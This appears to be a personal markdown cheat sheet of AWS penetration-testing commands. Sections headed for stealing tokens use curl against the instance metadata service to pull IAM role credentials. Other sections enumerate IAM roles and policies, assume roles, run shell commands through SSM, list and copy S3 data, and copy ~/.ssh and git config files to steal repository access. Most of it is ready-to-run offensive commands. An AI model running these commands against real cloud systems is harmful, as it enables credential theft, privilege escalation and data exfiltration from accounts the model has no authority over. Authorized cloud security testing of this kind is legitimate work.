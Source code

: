 ```yaml
---
tags: a/topic
---
```

in:: [[hacking]]
```breadcrumbs
type: tree
dir: down
depth: -1
from: -"_templates"
```
# Notes
AWS hacking notes

## Stealing AWS token from metadata service
```
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/
```
* Copy the role name returned
```
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>
```

or
```
export ROLE_NAME=`curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/`
echo "Instance role is ${ROLE_NAME}"
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/${ROLE_NAME}/
```

### aws cli
```
aws sts get-session-token
```
won’t work if you’re already using session creds

## Finding out who you are
Pull the instance profile from metadata
```
curl  http://169.254.169.254/latest/meta-data/iam/info/
```
* Copy the InstanceProfileArn field from the result

Pull the role name from metadata
```
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

AWS command line
```
aws sts get-caller-identity
```

## Finding out what you have access to
Get Role. Shows trust relationships.
```
aws iam get-role --role-name ${ROLE}
```

List managed policies attached to role
```
aws iam list-attached-role-policies --role-name $ROLE
```

Get Inline Role Names
```
aws iam list-role-policies --role-name $ROLE
```

Iterate over all inline policies
```
for POLICYNAME in `aws iam list-role-policies --role-name $ROLE | jq -r '.PolicyNames[]'`; do aws iam get-role-policy --role-name $ROLE --policy-name $POLICYNAME; done
```
Retrieves the specified inline policy document that is embedded with the specified IAM role.
```
aws iam get-role-policy --role-name <value>
```
aws iam get-instance-profile —instance-profile-name <instance_profile_name>     (gets roles and policies that this instance profile has)

---
Escalation (using assume role)


Pulling interesting metadata
curl  http://169.254.169.254/latest/meta-data/
curl  http://169.254.169.254/latest/user-data
curl  http://169.254.169.254/latest/dynamic/
curl  http://169.254.169.254/latest/meta-data/iam/info/
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/<instance_profile_name>

Running aws-configure
mkdir ~/.aws
cat <<EOF >~.awsconfig
[default]
output = json
region = us-east-1
EOF



Aws CLI fun
aws iam get-instance-profile —instance-profile-name <instance_profile_name>
aws iam get-role —role-name jslave
aws iam list-account-aliases
aws ec2 describe-security-groups —group-names ‘Default’ —query ‘SecurityGroups[0].OwnerId’ —output text               (cheat for getting current account id)
aws iam list-roles
aws iam list-attached-role-policies —role-name <role_name>
aws iam list-role-policies —-role-name <role_name>
aws iam get-role-policy —-role-name <role_name> —policy-name <policy_name>


Aws CLI get current user (one of these may work)
aws iam get-user
aws sts get-caller-identity

AWS SSM Run commands
aws ssm send-command --instance-ids "i-0ddd4588e3ab7bd99" --document-name "AWS-RunShellScript" --comment "IP config" --parameters commands=ifconfig --output text


Getting account info

Get-caller-identity gives the account number. List-account-aliases gives alias.
aws sts get-caller-identity
aws iam list-account-aliases

Sign in URL
https://Your_AWS_Account_ID.signin.aws.amazon.com/console/
https://Your_Alias.signin.aws.amazon.com/console/


AWS S3 CLI

aws s3 ls
aws s3 ls s3://bucket/dir/
aws s3 cp s3://bucket/dir/file .

AWS codecommit
aws codecommit list-repositories —region us-east-1

Things to work on
$ aws sts get-session-token
—

Testing git access

cat ~/.gitconfig
find / | grep ‘.git/config’        (finding any local git repos)
cat ….git/config               (finding where the git repos are hosted)
git config —list

* there does not seem to be a way to get a list of all repos. bitbucket has an api that will list them if you have a username/password (and not just an ssh key)

Stealing git access

* copy ~gitconfig and all the files in ~.ssh

SSRF notes

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery

# Assume Role
If a given role can assume other roles, this is how to switch
aws sts assume-role --role-arn "arn:aws:iam::123456789012:role/example-role" --role-session-name AWSCLI-Session

# Burp AWS Scopes
^.*\.amazonaws\.com$
^.*\.cloudfront\.net$

## Config file format
```
{
    "enabled":true,
    "host":"^.*\\.amazonaws\\.com$",
    "protocol":"any"
},
{
    "enabled":true,
    "host":"^.*\\.cloudfront\\.net$",
    "protocol":"any"
}
```

# Cloudformation
## Creating user via cloudformation
```
aws cloudformation create-stack --stack-name myuser --template-body file://user.yaml --capabilities CAPABILITY_NAMED_IAM
```

# References
* [AWS - Pentest Book](https://pentestbook.six2dez.com/enumeration/cloud/aws)
* [GitHub - RhinoSecurityLabs/pacu: The AWS exploitation framework, designed for testing the security of Amazon Web Services environments.](https://github.com/RhinoSecurityLabs/pacu)

